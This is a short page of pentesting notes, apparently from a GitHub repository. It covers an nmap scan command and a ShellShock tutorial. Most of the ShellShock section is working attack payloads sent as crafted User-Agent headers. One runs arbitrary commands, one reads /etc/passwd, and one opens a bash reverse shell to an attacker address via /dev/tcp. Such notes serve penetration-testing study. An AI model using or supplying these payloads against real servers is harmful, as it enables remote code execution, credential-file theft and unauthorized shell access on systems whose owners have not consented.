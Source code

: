 # Scan host 172.16.1.45 with the default scripts
nmap -sC 172.16.1.45

  Expand for Explanations of more Nmap Flags
  
    
-oXSave scan output to an XML file
    

-oNSave scan output to a txt file
    

-sPPing Sweep
    

-sS SYN Scan (TCP by default)
    

-sU UDP Scan
    

-sV Banner Grab
    

-p Specify port(s)
  


        


ShellShock

Bash does not sanitize headers before loading them as environment variables. This means it loads whatever value is sent in the header. For example, the request below results in HTTP_USER_AGENT being set to () { :;};. This is cryptic, but in vulnerable versions of Bash, this creates a function that does nothing.

GET /index.html HTTP/1.1
Host: example.com
User-Agent: () { :;};
Connection: keep-alive
Therefore, if you update the request above to the below, the server will run echo "haxxed".

  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; echo "haxxed"
  Connection: keep-alive
This allows you to execute arbitrary code on the server, including commands that open TCP connections back to your machine.

  GET /index.html HTTP/1.1
  Host: example.com
  User-Agent: () { :;}; /bin/bash -c "cat /etc/passwd"
  Connection: keep-alive

ShellShock Payload to Open a Shell Breakdown

# Here is a Shellshock Payload Example
User-Agent: () { :;};echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"`.
